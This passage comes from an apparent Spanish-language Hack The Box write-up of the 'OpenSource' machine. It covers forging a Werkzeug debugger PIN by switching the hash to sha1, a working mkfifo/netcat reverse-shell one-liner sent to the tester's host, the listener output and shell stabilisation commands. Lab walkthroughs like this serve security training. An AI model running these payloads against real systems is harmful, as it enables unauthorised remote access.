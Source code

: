 <img src="/writeups/assets/img/OpenSource-htb/9.png" alt="">

Lo cambio de ```md5``` a ```sha1```

```null
h = hashlib.sha1()
```

```null
python3 pin_generator.py
138-826-536
```

Ahora puedo ejecutar comandos desde el ```WerkZeug```

<img src="/writeups/assets/img/OpenSource-htb/10.png" alt="">

Me envío una reverse shell

```null
os.popen("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.16.9 443 >/tmp/f").read().strip()
```

```null
nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.9] from (UNKNOWN) [10.10.11.164] 44719
sh: can't access tty; job control turned off
/app # python3 -c 'import pty; pty.spawn("/bin/sh")'          
/app # ^[[6;8R^Z
zsh: suspended  nc -nlvp 443
❯ stty raw -echo; fg
[1]  + continued  nc -nlvp 443
                              reset xterm
/app # export TERM=xterm
/app # export SHELL=sh
/app # stty rows 55 columns 209
```
